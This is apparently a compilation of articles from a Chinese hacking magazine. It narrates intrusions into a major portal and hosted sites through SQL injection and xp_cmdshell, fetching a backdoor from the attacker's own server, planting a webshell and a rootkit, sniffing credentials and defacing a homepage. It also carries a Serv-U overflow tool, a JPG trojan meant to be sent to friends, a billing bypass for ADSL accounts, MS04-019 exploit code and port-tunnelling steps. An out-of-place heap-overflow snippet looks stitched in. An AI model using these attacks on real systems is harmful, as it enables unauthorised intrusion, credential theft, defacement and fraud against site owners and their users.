脚本小子：蝴蝶最近把 WTF 老大从论坛踢了出去，直接接管了“坛猪”，一天到晚在上面和读者朋友们搅和得一塌糊涂，而且还发起了异常火爆的“渗透入侵”技术讨论……下面这篇最新的渗透入侵国内某人人皆知的大型门户网站的文章就来自论坛上的神秘读者。先让我们平静一下激动的心情，一起来看看他是如何全面控制这个服务器群组的吧！

| 项目 | 内容 |
|---|---|
| 适合读者 | 入侵爱好者、网络管理员 |
| 前置知识 | ASP 注入、ARP 欺骗、嗅探 |
| 难度等级 | 中 |

### 2.1 aaaa.com 内部服务群组


文/图 Hackate

> **注：**本文的目标是国内一个大型门户网站。网址、图片都做过处理，如有雷同，纯属巧合。

行动吧！

## 寻找突破口 进入入侵

正文介绍：本文并无“最新技术”，关键在于多种情况的综合利用与突破限制。作者先从门户站点信息收集入手，发现开放端口有限，转而从 Web 层面寻找 SQL Injection 机会，并锁定可提交参数的 ASP 页面。

- 1. 找寻突破口。
- 2. 明确思路，根据情况突破限制。

右栏正文：在大量动态页面中定位到可疑参数提交点，随后通过构造输入触发数据库报错，确认注入点可利用。

> http://stock.xxxx.com/infoshow.asp?id=203431...

> Microsoft OLE DB Provider for ODBC Drivers error '80040e14' ... [Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed quotation mark before the character string ... /infoshow.asp, line 19

```c
char *s = "aaaaaaaaaaaaaaaaaaaaaaaaaaaa\x03\x00\x05\x00\x00\x09";
buf1 = (char*)malloc(32);   /* 分配两块内存 */
buf2 = (char*)malloc(16);
memcpy(buf1, s, 32+6);      /* 这里多复制6个字节 */
free(buf1);
free(buf2);
return 0;
```

后续正文说明：由于对 buf1 多复制 6 字节覆盖了 buf2 的管理结构，free(buf2) 时发生异常。文中借此讨论了类似漏洞在其他软件中的普遍性，以及掌握通用攻击函数与方法的重要性。

```text
http://stock.xxxx.com/infoshow.asp?id=203431' And 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))

http://stock.xxxx.com/infoshow.asp?id=203431' And 1=(SELECT SYSTEM_USER)

http://stock.xxxx.com/infoshow.asp?id=203431' And 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name='xp_cmdshell')
```

结果依次返回信息：“正常显示最高权限，SA 连接正常显示 XP_cmdshell 存在”！狂晕！我当时真不敢相信自己的眼睛，想不到一个这么大的门户网站还存在这种“弱智”的漏洞！可惜这的确是事实，我们只能接受，网管们也该醒醒了。研究 SQL Inject 这么久，这样的“默认配置”我是第一次遇到，既然是最高权限，我们当然想办法得到 Shell 了。

```text
http://stock.xxxx.com/infoshow.asp?id=203431;exec master.dbo.xp_cmdshell 'ping myip'
```

一会儿，天网报警了：“12.34.56.78 尝试 ping 本地，该包被拦截”，暂时得到数据库服务器的 IP 是 12.34.56.78。我们再来 Ping 一下 Web 服务器，返回的是 12.34.56.88，看来自情况不怎么乐观。这时基本上可以否定 Web 跟 SQL 在同一台服务器的猜想。根据情况，最理想的是 12.34.56.78 这个 IP 开了 80 端口。可实际情况又如何呢？拿出 SuperScan 一扫，什么都没有。看来现在只能从 Web 服务器入手来猜管理路径，然后希望后台有上传功能（好像在做梦？）。


下面就拿出 NBSI 扫吧！结果很容易就得到了管理员的账号和密码，赶紧直接登录进去进行大搜捕，可每个地方都搜过了，真的没有上传功能。

无奈之下只好拿出我们的生化武器 NB Tree List 1.0.1，列出服务器上的所有目录，如图 2 所示。翻翻数据库服务器有什么东西。唉，其实并没抱什么希望，主要原因是我认定了 Web 跟 SQL 服务器不在一起，而最后知道他们欺骗了我的感情，浪费了我的表情，强烈 BS 他们！大家切记以后在入侵的时候一定不要太相信自己的眼睛，很多时候自己会骗自己的。

这个程序主要是先建表，再用 XP_dirtree 或者 XP_subdirs 两个扩展读取硬盘列表并写入表中，再导出。由于该扩展只要求 public 权限，潜在的危险是很大的。


考虑到该作者没有公布，这里暂时不提供（2004 年第六期《黑防》上曾详细介绍手工读取系统目录的方法，大家可以查阅）。我们还是继续看入侵吧！我翻遍了整个硬盘，最后在 `e:\webhostint\21xx.com` 找到了网站的一些文件和目录！

### 惊喜

根据这个目录情况，我再用 IE 执行 GET 请求，发现刚才那个 21xx.com 的目录下所有的文件都能找到。不会是我判断失误，而实际上 Web 跟 SQL 是同一台机器吧？尝试着提交一下，在网站目录下建个文件看看：

```text
http://stock.xxxx.com/infoshow.asp?id=203431;exec master.dbo.xp_cmdshell 'dir c:\ > e:\Webhostint\xxxx.com\23.txt'
```

赶紧去看 `http://stock.xxxx.com/123.txt`，狂晕！正常看到 123.txt 了。看来我们先得到的数据库服务器的 IP：12.34.56.78 是一个堡垒机，要不就是做的端口映射。不过从种种情况来看，我们能访问的只有 stock.xxxx.com 这个服务器的 80 端口了，可见防火墙策略还是挺不错的。

继续刚才的工作。根据情况我们现在需要得到一个系统的 Shell 去上传后门。用 SA 去执行后门程序即可得到 System 权限。明确了步骤，开始！上传后门程序是最艰辛的，试了很多方法才绕过。

- 1. 首先试了一下 `tftp`，执行 `http://stock.xxxx.com/infoshow.asp?id=203431;exec master.dbo.xp_cmdshell 'tftp -i myip get 后门.txt';--`，本地连接有反应，但不成功，返回信息是超时，失败。
- 2. 尝试 ftp，写了一个 Ftp.txt 文件放在 C:\，内容如下：

```text
open myftpserver
168
123
get 后门.exe
bye
```

然后在提交 `http://stock.xxxx.com/infoshow.asp?id=203431;exec master.dbo.xp_cmdshell 'ftp -s:c:\ftp.txt';--` 的时候，IE 进度条变得很慢……服务器上也有了这个文件，可是传送速率是 0kb，看来这条路也失败了。

- 3. 自动下载后门到网页缓存。直接在 IE 里输入 `\its:http://www.sometips.com/soft/ps.exe` 会成功……希望知道的朋友 Free 一下。
- 4. 想找个简单点的方法都不行，干脆直接用 Echo 写入一个 ASP 木马。找了一个少点的木马代码如下：

```asp
<%dim objFSO%>
<%dim fdata%>
<%dim objCountFile%>
<%on error resume next%>
<%Set objFSO = Server.CreateObject("Scripting.FileSystemObject")%>
<%if Trim(request("syfdpath"))<>"" then%>
<%fdata = request("cyfddata")%>
<%Set objCountFile=objFSO.CreateTextFile(request("syfdpath"),True)%>
<%objCountFile.Write fdata%>
<%if err=0 then%>
<%response.write "<font color=red>Save Success!</font>"%>
<%else%>
<%response.write "<font color=red>Save UnSuccess!</font>"%>
<%end if%>
<%err.clear%>
<%end if%>
<%objCountFile.Close%>
<%Set objCountFile=Nothing%>
<%Set objFSO=Nothing%>
<%Response.write "<form action='' method=post>"%>
...
<%Response.write "<textarea name=cyfddata cols=80 rows=10 width=32></textarea>"%>
<%Response.write "<input type=submit value=Save>"%>
<%Response.write "</form>"%>
```

大家都知道在 DOS 下要用 Echo 输入“< >”等特殊字符都要用“^”转义……还要考虑到“%”“&”等字符在 ASP 程序里也会用到，所以我们需要使用编码。

```text
http://stock.xxxx.com/infoshow.asp?id=203431;exec master.dbo.xp_cmdshell 'echo ^<%25dim objFSO%25^> > e:\Web\host\xxxx.com\1234.txt';--
```

……省略若干步骤。别看这点小事，我可是整整做了 30 分钟……反正我是一步一步试出来的。

简单的木马我们已经写好了，这是一个写文件的 ASP 程序，然后我们要将海洋木马写到服务器里，如图 3 所示。


图 3

接下来的事就变得简单多了，借助 ASP 木马的上传功能，上传一个 RootKit 上去……然后直接在 IE 里提交：`exec master.dbo.xp_cmdshell 'c:\rootkit.exe'`……再用 NC 连接并输入密码。

Shell，结果一看还开了终端服务和 MSSQL，想不到啊想不到！

或许有朋友说，到这一步，入侵就算结束了，但事实上我们要做的事还很多。在 Web 目录下新建一个目录，再把 ASP 木马放进去，多放一个后门保险点，以防万一被发现。再用 RootKit 将该目录隐藏。

### 渗透内网

没有控制所有的服务器对我来说就是入侵的失败，我并没有停止在单一控制这一个服务器上，而是上传了一些扫描、Sniff、ARP 监听工具，准备进入内网！首先进入主站，收集信息，看看网络清单，如图 4 所示。

尝试 Ping xxxx.com，得到该主机的内网 IP 地址 12.34.56.99，再利用 Nmap 扫描一下，发现开放 21、80、3389 端口。


看来在内网扫描时防御比较弱一些，该死的防火墙、IDS 见鬼去吧。另外还让人想不到的是这么大的网站还用 Windows 系统。

| 项目 | 值 |
|---|---|
| IP 地址 | 12.34.56.88 |
| 掩码 | 255.255.0.0 |
| 网关 | 12.34.56.254 |
| DNS 服务器 | 10.172.1.1 |

下面就开始 ARP 监听了，当然 WinPcap.exe 事先已经安装好了，下面我们就运行我已改名的 ARPSniffer.exe，命令如下：

```bash
App.exe 12.34.56.254 12.34.56.99 21 c:\111.txt
```

其中 12.34.56.254 是网关，12.34.56.99 是主站服务器的 IP，21 就是我们监听的端口，C:\111.txt 是我们保存的记录文件，“1”为网卡 ID 号。

过了一天，登录 RootKit，杀掉 ARP.exe 进程，再 `type c:\111.txt` 查看记录，竟然顺利得到 FTP 的账号和密码。

```bash
net use \\12.34.56.99\ipc$ ftppasswd /user:administrator
```

天啊！建立连接成功，我已经晕得不行了。现在我想干什么都可以了，IPC$ 入侵大家都很熟悉了吧？我也就不废话了，入侵、留后门、Copy 点认为有价值的东西，闪人！来日方长，反正有两个 RootKit 在，我就不信你重装系统！

> 后记：这么大的一个门户网站，存在这么大的安全问题，还没有一些中小型网站安全性高。由此可见国内一些网络管理人员在素质、工作态度等方面存在严重问题，希望加以改进，共同创造一个安全而稳定的网络环境。

## Linux 下的应对 Serv-U

关于 Serv-U 溢出的文章，漏洞成因及危害我就不多说了。今天我给大家带来的是在 Linux 下溢出的方法，没有什么高深技术，只是给大家增加一种入侵模式。

入侵第一步当然是扫描。关于扫描我实在没什么好方法，只能用 SuperScan 大面积扫描。另外我的 Linux 不是基于虚拟机，所以我是用 Rdesktop 的方法扫描。扫描器设置成只扫 21 端口，来看收集的信息，如图 1 所示。

然后就是溢出了，这是整篇文章的关键部分。我用的工具是 K-ftp。


## 漏洞攻击 EXPLOIT ATTACK

栏目编辑：脚本小子（scriptsboy@hacker.com.cn）

```bash
gcc -o k-ftp k-ftp.c
```

编译成功后，再执行 `./k-ftp -h`，看帮助信息，如图 2 所示。


图2


图3

按照说明，可以溢出 Serv-U 3.X、4.X、5.X，也就是能溢出 5.0.0.3 以下的所有版本（包括 5.0.0.3）。这里需要注意相关参数的应用：

- `-h`：你要攻击的 IP，这是必须项。
- `-P`：端口（大写 P），如为 21 端口可省略。
- `-t`：选择对方操作系统（可通过 Telnet 80 端口等方法判断）。
- `-u`：目标 FTP 服务器必须有可访问账号，匿名访问也可。
- `-p`：填写密码。
- `-d`：绑定 ShellCode 端口，不选则默认使用 21 端口。


图4

好办了，直接架一个新的就行了。好了，剩下的事留给更有智慧的读者你去想吧，第一次写稿没什么经验，只是希望能让大家了解一点 Linux 下入侵的小知识，东一句西一句的，希望读者能看明白，下次会写得更好！

> **脚本小子：**经过测试，这个程序可以溢出繁体中文的系统。

程序还算简单，前面的说明都看懂了，我们开始实践吧！如果对方是 Serv-U FTP 5.0.0.4 以上版本，溢出攻击会总是提示成功，但连不上 Shell。一定要注意对方 FTP 版本。还好我运气不错，找到一个 4.1 的匿名 FTP 服务器，很简单地就溢出成功了，如图 3 所示。

溢出成功后会自动连接，而且是 System 权限。剩下传木马留后门的工作大家都很熟悉了。需要注意上传下载不同于 Windows 下的方式。溢出后 FTP 服务会自动停止，如图 4 所示。

这里我提供一种思路，把工具传到 Windows 肉鸡上，然后在被攻击服务器上用 TFTP 下载，这样方便很多。

## 利用 JPG 漏洞构造网页木马

文／图 sko

JPG 漏洞有什么用？有心的朋友或许已经意识到了：做网页木马！

首先我们去下载一个 JPG 木马生成器（黑防下载系统可下载），运行后输入木马下载地址，比如：www.site.com.cn/muma.exe，选择 make 生成 JPG 图片，如图所示。

或者采用本期黑防提供的漏洞利用工具手工生成 JPG。将这个图片发给你的好友吧，等着它主动连上来就 OK 了。注意木马一定要选择反向连接并尽量免杀，以提高成功率。


| 适合读者 | 入侵爱好者 |
|---|---|
| 前置知识 | 脚本注入、ASP 后门使用方法 |
| 难度等级 | 中 |

## 脚本小子

虚拟主机是国内最普通的服务器，针对虚拟主机的攻击也很多，而利用“旁注”对目标站点进行渗透就是其中非常巧妙的一种入侵方法。

- 1. 利用旁注，从一个 IP 查到多个域名。
- 2. 细致地观察，利用 Web 程序自身功能，得到 WebShell。
- 3. 多方面利用，注意细节，成功就在你身边。


文／图 Hackate

## 我是这样奇袭虚拟主机的
### ——利用旁注入侵虚拟主机

毕业、工作后，时间少了。某晚聊天聊到旁注，决定试试看，于是选择一个论坛站点作为目标开始测试。

目标站点是一个 DVBBS 论坛。正面攻击不顺，于是改用旁注：先查同服务器上的其他站点，再从其他站点切入目标。可通过 whois/Webhosting 等站点查询域名与同 IP 站点信息。

先 Ping 得到 IP，再查该 IP 的全部域名。共发现多个站点：第一个论坛补丁较新；第二个内容丰富站点可继续尝试，进一步在其功能点中发现可利用入口。

通过注入最终得到账号、密码与后台入口，随后进入后台寻找可上传后门的位置，继续横向利用。

后台里发现“备份数据库”等功能，同时发现可添加专辑并上传图片，于是将 ASP 木马改后缀为 JPG 上传（如图 1）。


图1

上传成功后，关键是让木马可执行：利用“备份数据库”等功能把上传文件改成 ASP 后即可运行（如图 2）。


图2

一切顺利后，继续进入 DATABACKUP 目录验证木马可用（文中后续如图 3 所示）。

输入密码。今天运气还不错，点了一下 D 盘，所有目录都出来了，接下来当然是将他的主页小小地修整一下，如图 4 所示。

留下后门，收工走人！


图3


图4

## 享受同时在线

文／图 Fid_lee

## 绕过网通 ADSL 的唯一性认证


随着宽带接入的推广，许多网友告别了“小猫”上网的日子，纷纷换上了由各种 ISP 提供的宽带接入服务。因为许多小区设有统一的宽带入户布线，再加上前段时间网通开展免费安装并且“赠猫”的活动，有许多人便选择了 ADSL 这种接入方式。众所周知，这种宽带连接在登录的时候无论是使用网通提供的“宽带通”专用拨号软件进行登录，还是使用 Windows XP 创建的 PPPoE 虚拟拨号连接进行登录，都需要一个账号，而本文就和这个账号有密切的联系。

以前 ADSL 的账号有一个特点，只要你知道另外一个人的用户名和密码，你们两个人就可以同时使用同一账号进行 PPPoE 拨号上网；但是前段时间网通为了防止这种现象发生，采取了在用户上线后，其他用户不能使用同样用户名再次连接网络，即一个账号只能有一个用户在线的唯一性认证措施。这个功能的确有一定的安全性，若某个账号正在被他人使用中，则提示拒绝连接。但是否真的就不可能让两个人同时使用同一账号上网了呢？

我与另一个同学都是网通 ADSL 的使用者，我是包月，他是计时使用。偶尔他需要长时间上网，为了“经济利益”，只得借用我的包月账号。账号借出了，我就不能同时使用这个包月账号了，便有时间胡思乱想。我觉得这个唯一性验证只是检查了某账号的用户名是否已经被用于登录连接；若没有，则再校验密码的正确性。

试着设想一下，现在有两个账号，一个为计时，一个为包月（两个都是包月没有修改的意义），这两个账号的用户名和密码对方都已知。假设包月账户已处于在线状态，如果你用一个计时的 ADSL 账号登录成功以后，到网通的 ADSL 自服务系统去将这个正处于在线状态的包月账号用户名修改一下，这个新修改的用户名只有等再次登录校验用户名和密码时才会被激活。

也就是说再次登录之前，网通的登录系统只会认为那个修改前的用户名已经被占用，而不会认为这个新修改的用户名被占用。我们就可以用新修改的用户名去登录网络，密码校验正确之后便会登录成功，而修改前的那个账号依然可以正常使用网络！这样不就绕过网通的唯一性认证了吗？并且计费方式与这个被修改的包月账户相同。

为了验证这个想法，我做了一个简单的试验：我的同学先用包月账号登录 ADSL，然后我再使用计时的账号登录 ADSL，并且到 BBN 网站的 ADSL 自服务系统里去修改一下包月账号的用户名，提示修改成功后将限时的 ADSL 账号断开连接，再用修改过用户名的包月账户去登录 ADSL，登录成功！就这样简单，我们可以享受两人同时在线的乐趣了！

需要注意的是，被修改用户名的账户在断开连接之后再次登录 ADSL 时，就需要用新修改的用户名；这时若想继续让两人同时在线，还需要到 BBN 上再次修改一下用户名。不过，当某个用户名被修改一次之后，6 小时（网通客服是这么传说的）之内是不允许再次更改用户名的。

最后，我觉得这个缺陷其实是有方法预防的，只不过我不知道这个方法能否可以实现，还是让网通的朋友去实践吧。

- 1. 网通的服务系统在处理用户修改用户名的操作时，应该验证一下是否是用户本人在做该修改操作；若不是用户本人，而是用其他账号登录的客户，就不应该受理他的操作。
- 2. 修改登录名之后系统应立即生效或者强制断开让客户再次登录。

通过上面的两个方法，应该可以比较好地防护这个漏洞了。大家赶紧去试一下能不能同时上网吧！相信不会让你失望的哦。

## MS04-019 提升权限

Windows 2000 里有一个叫做辅助工具管理器的小程序，用来管理系统中放大镜和屏幕键盘程序的启动、运行。要启动这个程序有 3 种方法：第一种可以通过“开始菜单→程序→附件→辅助工具→辅助工具管理器”来启动这个程序；第二种方法是在 CMD 里输入 `Utilman.exe /start`；还有一种方法是使用键盘上的 Windows 键 + U 键来启动它。

辅助工具管理器存在一个本地提升权限漏洞，一般用户可以通过它来获取 LOCAL SYSTEM 权限。要了解该漏洞的原理，我们首先要来看一下辅助工具管理器的运行方式。辅助工具管理器虽然是通过 Utilman.exe 这个本地可执行文件来启动界面，但是它实际上是通过“Utility Manager”服务来进行实际操作的……所以辅助工具管理器无论对于系统中的任何用户来说，都具有系统服务的权限，即 LOCAL SYSTEM 权限。

辅助工具管理器的界面由于没有正确处理 WM_COMMANDHELP 消息，把整个消息转给了后台的“Utility Manager”服务，所以普通用户可以通过发送 WM_COMMANDHELP 消息以系统服务的身份运行任意系统本地的可执行程序，一般我们可以运行 CMD.EXE 来获得 LOCAL SYSTEM 权限的命令行。下面我们就来看一下具体怎样利用这个漏洞。

### 漏洞利用

这个漏洞是本地提升权限的，利用该漏洞的先决条件是要有一个普通用户（USER、POWER USER 或 GUEST 用户）的本地登录权限或者 3389 登录权限。在普通用户的登录环境中启动辅助工具管理器（可通过 Windows 键 + U），界面如图 1 所示。此时需要给该窗口发送一个 WM_COMMANDHELP 消息，一般程序可通过按 F1 发送，但辅助工具管理器默认不处理 F1 热键，所以需要通过编程方式实现。


利用 `FindWindow()` 函数查找标题为“辅助工具管理器”的窗口，然后使用 `PostMessage()` 函数发送右键点击消息来调出右键菜单；在右键菜单出现后再发送 WM_COMMANDHELP 消息。

```c
hHandle = FindWindow(NULL, "辅助工具管理器");
if (!hHandle) {
    printf("error: unable to start Utilman.exe\r\n");
    return 0;
}
PostMessage(hHandle, 0x313, 0, 0);   // 发送右键消息
Sleep(1000);                          // 休眠1秒等待菜单出现
SendMessage(hHandle, 0x365, 0, 0x0); // 发送WM_COMMANDHELP消息
```

把上面程序编译运行，在发送完右键菜单后，辅助工具管理器显示如图 2 所示。


### 漏洞攻击

在这之后发送 WM_COMMANDHELP 消息，辅助工具管理器会显示“找不到文件 C:\WINNT\System32\UManDlg.HLP。是否亲自查找该文件？”，如图 3 所示。


我们选择“是”，会出现 Windows 的打开文件对话框，如图 4 所示。


此时辅助工具管理器要在 System32 目录下打开名叫 UManDlg.HLP 的帮助文件，但是没有找到这个文件，我们在文件名一栏里面输入 `cmd.*` 并回车，会在打开文件中显示出 CMD.EXE 文件夹，如图 5 所示。


此时千万不要着急双击 CMD.EXE，因为此时是以 HLP 方式打开文件的，所以双击 CMD 并不能直接运行它。我们现在要做的是右键点击 CMD 文件，选择“打开”，如图 6 所示。


接下来就能看到我们熟悉的 CMD 窗口了，无论我们当前是用什么用户登录的，此时获得的 CMD 窗口都是具备 LOCAL SYSTEM 权限的，接下来的事情就可以随便添加管理员账号、运行木马等等，就不用我一一教给大家了，如图 7 所示。


其实我们也不一定非要手动一步步操作，安全焦点上面有一个已经写好了的利用程序，名叫 W2kUtilManExp_MS04-019_Universal.c，可以在安全工具里找到，不过这个程序只能针对英文版和法文版的 Windows 2000，我们需要在它的下面代码中添加一行（详细代码请查看光盘“源代码”栏目，按照文章名查找即可）：

```c
struct {
    int id;
    char *utilman;
    char *winhelp;
    char *open;
} lang[] = {
    { 0x0c, "Gestionnaire d'utilitaires", "Aide de Windows", "Ouvrir" }, /* French */
    { 0x09, "Utility manager", "Windows Help", "Open" }, /* English */
    { 0x04, "辅助工具管理器", "Windows 帮助", "打开" } /* Chinese */
};
```

添加上一行中文版的语言 ID、辅助工具管理器窗口标题、Windows 帮助窗口标题以及打开按钮文字，这样就可以成功地攻击中文版的 Windows 2000 了。

### 解决方法

微软已经为此发布了一个安全公告（MS04-019）以及相应的补丁程序：

- MS04-019 Vulnerability in Utility Manager Could Allow Code Execution (842526)
- 链接：http://www.microsoft.com/technet/security/bulletin/MS04-019.mspx

对于无法安装补丁程序的用户来说，可以使用管理员账号把 Utility Manager 服务的启动类型设置成“已禁用”，或者使用组策略设置关闭工具管理器，这样普通用户就无法启动辅助工具管理器了。

文／图 Kaka（Kaka[at]0x557[dot]org）

## 一次巧妙的渗透入侵

### ——对有端口转发的域的渗透


现在管理员的安全意识越来越高，值得庆贺。可惜大多是国外和 TW 的，国内倒没见几个管理员能配置出很 BT 的服务器。本文就是针对的一系列服务器配置情况（按我自己的理解），配置算比较 BT 的，一起来看看我们如何入侵它吧！

预想配置：配置防火墙，做 Port 过滤；禁止非过滤端口访问网络；远程管理限定 IP 等。

本文作为例子的这台服务器的配置可能有些特殊，上面的配置是我自己根据进入的机器查看其环境来说的，不对之处请大家指出，下面正式开始艰难地入侵之路。

先用 NMAP 来看服务器情况：

```bash
C:\>nmap -sS -P0 xxx.xxx.xxx.xxx
...
PORT     STATE SERVICE
21/tcp   open  ftp
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
443/tcp  open  https
3389/tcp open  ms-term-serv
```

```text
ipconfig /all
Physical Address ...
IP Address ...
Subnet Mask ...
Default Gateway ...
DNS Servers ...

tracert www.hinet.net
...
Trace complete.
```

扫描出 xxx.xxx.xxx.xxx 服务器有 IIS SSL 远程溢出漏洞，利用 SSL EXP 远程溢出成功后得到里边的网络环境，通过“ipconfig /all”可以发现 Host Name 是“lsiiwww”，具体情况请看下表（经过删减）：

```text
C:\WINNT\system32>ipconfig /all
Windows 2000 IP Configuration
Host Name ... lsiiwww
Primary DNS Suffix ... lucybelle.com
...
```

可以看出是通过网关出去的，但也可能本机有公网 IP。看本机服务开了 3389，本来以为此次渗透就结束了，因为有了 Terminal 服务可以利用远程终端连接过去，就可以得到 GUI 界面，剩下的事情就简单了。但我用终端连接上去，居然出现的是 Windows XP 的登录界面，如图 1 所示。IP 地址输入错误？不对，查看 SSL 反向连接过来的 IP 地址……


```text
C:\>nc -vv -l -p 80
listening on [any] 80 ...
Microsoft Windows 2000 [Version 5.00.2195]
```

IP 没错啊！仔细想想原因……根据 Windows XP 登录界面可以初步判断此服务器位于一个域内。先在进入的服务器上激活一个账户，然后利用该账户尝试登录这台 Windows XP 机器。

激活 TsInternetUser 账户并加入 Administrators 组后，尝试登录失败。再用 `net user /domain` 查看用户，基本确定该机器不是域控制器。

```text
C:\WINNT\system32>net user /domain

Administrator amanda anncctim coral gigi Guest
IUSR_LSIIWEB IWAM_LSIIWEB kaka TsInternetUser ...
```

既然无法登录，就先看本地机器是否有管理员登录；若有人登录可尝试 dump 密码。随后在目标机写入 `Down.vbs`，通过 HTTP 下载 `hacker.exe` 到本地执行，再用该方式下载后续工具。

终端连接显示像是 Windows XP，但实际进入的是 Windows 2000（192.168.1.81）。检查 WEB 目录后判断存在端口映射：XP 的 80/443 映射到 Windows 2000 的 80/443。

```text
Me --> xxx.xxx.xxx.xxx [xp os] --> XP port map --> windows 2000 : 80 port
```

根据 NMAP 扫描结果还开放了 21、25、110、3389 等端口；但 Windows 2000 上未开 25 和 110，推测是 XP 开了服务或再映射到内网其他机器。接着准备用 Fpipe 做端口重定向。

```text
fpipe -l 80 -s 53 -r 3389 192.168.1.81
```

含义是把发到本机 80 端口的连接，经 53 端口转到 192.168.1.81 的 3389。实战中执行后 IIS 与已获 shell 均异常，后来发现做重定向前必须先停掉 80 端口服务。

第二天管理员重启机器后再次尝试，仍难以直接进入。最终想到使用 Httptunnel 进行隧道转发。

> **什么是 HTTPTunnel？**  
> HTTPTunnel（HTTP 隧道）是将数据封装在 HTTP 请求中穿透防火墙，建立双向虚拟数据连接；优点是即使目标机 80 端口对外开放，正常 Web 访问仍可保持。

利用 Httptunnel 将本地 9898 转到远程主机 80：`htc -F 9898 xxx.xxx.xxx.xxx:80`；再将目标 80 转到本地 3389：`hts -F localhost:3389 80`，从而用 3389 终端连接目标。

```text
Local:3389 mstsc->localhost:9898 (httptunnel) map->server xxx.xxx.xxx.xxx:80 map->windows2000:80 (httptunnel) map->windows2000:3389
```

事实证明 Httptunnel 可行：本地执行 htc 客户端，目标机执行 hts 服务端。

```text
C:\>htc -F 9898 xxx.xxx.xxx.xxx:80
C:\WINNT\system32>hts -F localhost:3389 80
```

本地利用终端程序连接本地 IP:9898，如图 2 所示。


连接完成后，Windows 2000 终端应处于可操作状态。拿到目标机器 GUI 权限后，后续操作相对简单。

- 利用该机器作为据点，扫描内网其他机器，找出域控制器。
- 在该机器安装并监听 Sniffer。
- 获取某个域用户账户密码。
- 攻破域控制器。
- 所有机器被控制，此次渗透结束。

总结：此次入侵流程虽不复杂，但内网控制过程较繁琐，尤其多次端口转发容易混淆。应先明确目标与达成路径，确定目标后其余阻碍将更易处理。

---

| 适合读者 | 程序员、入侵爱好者 |
| --- | --- |
| 前置知识 | 汇编、溢出原理 |
| 难度等级 | 高 |

**脚本小子**：黑防曾经在“漏洞攻击”栏目中刊发过多个版本的原创缓冲区溢出文章。本文继续介绍作者 isno 的经典文章，详细描述如何发现 CCProxy 的远程溢出漏洞、如何确定溢出点、如何构造 Exploit 并实现攻击。

## 我是如何发现 CCProxy 远程溢出漏洞的


文 / isno

CCProxy 是一款支持 HTTP、FTP、Gopher、SOCKS4/5、Telnet、HTTPS、NNTP、RTSP、MMS 等代理协议的软件。由于其易用，在国内应用较多。作者在测试中发现 CCProxy 6.0 版本存在多处缓冲区溢出漏洞，可导致攻击者远程执行任意代码。

> 协议为载体传递视频短片、图片、声音和文字等信息，这是 MMS 协议中的一种。

### 漏洞发现过程

作者通过黑盒测试思路进行网络部分边界测试：将网络协议包分块，制定各块测试策略并逐步执行。该方法便于控制进度、覆盖协议各部分，并可持续加入新测试用例；测试程序可使用脚本语言或 C 编写。

> **什么是 Gopher、RTSP 和 MMS？**
>
> - Gopher：早期互联网信息检索/索引协议。
> - RTSP：Real Time Streaming Protocol，用于流媒体传输控制。
> - MMS：Multimedia Messaging Service，多媒体短信服务。

> **什么是黑盒测试？**  
> 黑盒测试把程序视为“黑盒”，不关注内部结构，重点验证接口行为是否符合规格说明，输入输出是否正确、外部信息完整性是否满足要求，也称功能测试。

## 漏洞攻击 / EXPLOIT ATTACK

栏目编辑 / 脚本小子 / scriptsboy@hacker.com.cn

我就是在用这种方法测试公司产品的时候，在公司内部网之间使用 CCProxy 做代理服务器，因为测试 HTTP 协议要通过这个代理，所以测试过程中发现 CCProxy 崩溃了，也因此发现了这个漏洞，算是偶然吧。

### 漏洞分析过程

CCProxy 的 HTTP 代理端口默认是 808，这个端口可以在其界面中进行更改。漏洞原理很简单，就是对 CCProxy 的 HTTP 代理端口发送 URL 超过 4056 字节的畸形请求，CCProxy 就会发生堆栈溢出。后续发现不仅 GET 请求，POST、HEAD 等请求也会导致溢出；进一步分析发现 CCProxy 的 Telnet 代理也存在该问题。随后开始详细分析漏洞过程，使用 SoftICE 调试器和 IDA 反汇编工具。

```text
0x04 Ebp
0x08 Eip
0x0c Cs
0xC0 EFlags
0xC4 Esp
0xC8 Ss
```

用 `dd (*(esp+4))+b8` 命令发现异常 EIP 是 `0x41414141`。由于 0x41 是字符 A 的 ASCII 码，说明发送的超长字符串覆盖了某个函数的返回地址，导致函数返回时跳转到 0x41414141，从而触发“指令引用 0x41414141 的内存，该内存不能 read”的异常提示。

> “0x41414141 指令引用 0x41414141 的内存。该内存不能 read。”——这是典型的溢出提示，明确指出覆盖地址和错误特征。

接下来通过逐步减少发送字符长度定位溢出位置。4039 字节时不再触发错误。由于堆栈和返回地址被覆盖，直接观察可见大量 “A” 和 “Unknown Web” 字符串。于是对可疑堆栈地址设置写断点（如 `bpm d 01977908 w`），并通过 `addr ccproxy` 进入进程地址空间。分析表明在调用 `0040A410` 前后的压栈过程中写入了返回地址，最终在函数返回时跳到 `0x41414141`，确认溢出发生于该函数相关流程中。

> **脚本小子**：很多人习惯用 WINDASM 反汇编，优点是简单易懂；IDA 不仅能反汇编，还会分析程序并加注释，但完整分析大型程序往往耗时较长。

完整调试流程：先在 SoftICE 中对 `ntdll!KiUserExceptionDispatcher` 下断点；由于 SoftICE 默认不加载 Ntdll，可通过 DriverStudio 中的 Symbol Loader 加载导出。随后向 808 端口发送超长 GET 请求（约 4056 个 A），程序在异常分发处停下。再通过 `dd (*(esp+4))+b8` 查看错误 EIP；该参数指向保存异常时寄存器结构，从偏移 0x8c 开始依次可看到各寄存器值。

```text
0x08c Gs
0x090 Fs
0x094 Es
0x098 Ds
0x09c Edi
0x0a0 Esi
0x0a4 Ebx
0x0a8 Edx
0x0ac Ecx
0x0b0 Eax
```

函数到底进行了哪些操作。反汇编的代码如下：

```text
text:0040A410 sub 40A410 proc near
text:0040A410 mov eax, 280Ch
text:0040A415 call __alloca_probe
text:0040A41A mov eax, dword_501D04
text:0040A41F push ebp
text:0040A420 mov ebp, [esp+...]
...
```

可以看到这个函数调用 `__alloca_probe` 函数来进行缓冲区分配，它和普通函数调用 `sub esp, xxx` 的方式来分配缓冲区有点不同，这是因为它需要分配的缓冲区太大，直接减 ESP 可能会导致直接到达未分配的地址空间，所以需要用 `__alloca_probe` 来分配这个大缓冲区。

我们再继续跟踪这个函数，发现在 0040A607 的指令时覆盖了函数的返回地址。代码如下：

```text
text:0040A5F1 lea ecx, [esp+414h]
text:0040A5F8 push ebp
text:0040A5F9 push ecx
text:0040A5FA lea edx, [esp+1820h]
text:0040A601 push offset aSS_0 ; "%s|%s"
text:0040A606 push edx
text:0040A607 call _sprintf
```

